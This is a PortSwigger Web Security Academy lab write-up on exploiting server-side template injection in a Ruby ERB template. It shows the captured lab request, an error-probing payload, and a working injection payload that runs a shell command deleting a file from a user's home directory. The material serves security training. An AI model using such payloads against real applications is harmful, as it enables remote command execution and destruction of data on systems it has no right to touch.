 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5b17ef65-a3ef-4390-aa1b-69f5911f3586)

## Solution :

When we load the firest image in the website , we get the message that the *product is out of stock*

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cac628eb-2b0c-47cf-b014-04baad860f0c)

The following is the GET request that was sent to us,

```http
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
Host: 0ae800e104787954807bcde700900037.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ae800e104787954807bcde700900037.web-security-academy.net/
Cookie: session=sfkb71a43M50TVtVZ8WBBtMftYCQ6Qwi
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

Since the lab says it is an **ERB** template, we can test if it is vulnerable by trying the following payload - `<%=..%>`

It throws an error response as expected.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/eb63ac7a-3aaf-44a7-932c-f055eb7c0d07)

Now we can try to run commands using the ERB template syntax & delete the *morale.txt* from carlos's home directory.

Command used - 
```erb
<%= system('rm -rf /home/carlos/morale.txt') %>
```

Once we send this payload, the morale.txt file is deleted & the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/041ee417-6d45-42c2-9576-009e025e55ce)
